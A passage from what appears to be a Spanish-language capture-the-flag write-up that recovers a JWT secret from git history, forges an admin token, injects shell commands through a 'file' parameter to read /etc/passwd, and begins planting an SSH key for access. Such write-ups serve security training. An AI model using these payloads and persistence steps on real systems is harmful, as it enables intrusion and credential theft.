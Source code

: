 ### Análisis del repositorio Git

Revisamos los logs de esta carpeta:

```bash
git log
```

Se puede ver un log que indica el borrado de un archivo `.env`. Procedemos a ejecutar:

```bash
git diff HEAD~2
```

Buscando las diferencias, podemos ver un token secreto:

```
TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvw
```

## Explotación JWT

Volvemos a JWT.io, cambiamos el campo `name` a `theadmin` y pegamos la clave dentro del secreto HMAC. Probamos el JWT recién creado contra el endpoint `/api/priv` para garantizar que la derivación funcione.

Con una cuenta de admin ahora, podemos intentar extraer datos de la ruta `/api/logs`. Primero nos aseguramos del usuario que ejecuta la aplicación tomando la lista de usuarios de `/etc/passwd`.

### Command Injection

La URL completa será:
```
http://10.10.11.120/api/logs?file=index.js;id;cat+/etc/passwd
```

```bash
curl -i \
  -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTkwMDg3YWYwM2VjMDA0NWVlNjg1M2YiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRydEBkYXNpdGgud29ya3MiLCJpYXQiOjE2MzY4Mjk2NDh9.ENKbUxgLeuUXueEMn5DG_2LZUJemd11E842rQ1ekzLg' \
  'http://10.10.11.120/api/logs?file=index.js;id;cat+/etc/passwd' | sed 's/\\n/\n/g'
```

Así que tenemos un usuario real con shell de inicio de sesión. Revisando los puertos abiertos nuevamente vemos SSH, así que intentaremos por ahí.

## Acceso por SSH

Para hacer esto, agregamos una clave pública SSH a `authorized_keys` en el directorio de inicio.

**Tip:** En un compromiso real, no utilices la clave SSH principal de tu máquina, genera siempre una nueva.

### Generación de claves SSH
